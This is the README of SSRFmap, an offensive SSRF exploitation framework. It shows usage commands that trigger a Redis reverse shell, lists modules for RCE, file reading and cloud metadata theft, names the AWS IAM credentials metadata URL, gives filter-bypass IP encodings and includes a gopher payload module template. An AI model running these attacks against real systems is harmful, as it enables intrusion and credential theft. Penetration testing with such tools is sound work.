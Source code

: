 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/)

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Guide / RTFM

Basic install from the Github repository.

```powershell
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap/
python3 ssrfmap.py

usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST] [--lport LPORT] [--level LEVEL]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
  --level [LEVEL]  Level of test to perform (1-5, default: 1)
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zaddix`       | Zaddix RCE |
| `mysql`        | MySQL Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- handle request with file in requester
- requester injection point in file (if param = None, check SSRFMAP in reqFile and replace with the payload)
- add https://github.com/cujanovic/SSRF-Testing ip.py into the ip generator from core.utils

  ```powershell
  http://0xA9FEA9FE/ Dotless hexadecimal
  http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
  http://0251.00376.000251.0000376/ Dotted octal with padding
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
